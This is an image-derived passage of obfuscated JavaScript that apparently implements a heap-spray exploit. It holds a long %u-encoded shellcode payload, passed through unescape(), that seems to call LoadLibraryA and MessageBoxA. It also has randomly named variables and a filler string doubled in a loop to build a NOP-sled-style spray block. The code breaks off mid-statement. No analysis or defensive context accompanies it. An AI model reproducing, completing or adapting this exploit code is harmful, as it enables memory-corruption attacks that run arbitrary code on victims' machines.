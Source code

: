 ```javascript
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape(
  "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff"
);
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 128;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA =
  fJWhwERSDZtaZXlhcREfhZjCCVqFAPS +
  ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length;
while (
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length <
  fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
)
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY +=
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb =
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
MOysyGgYplwyZzNdETHwkru =
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
```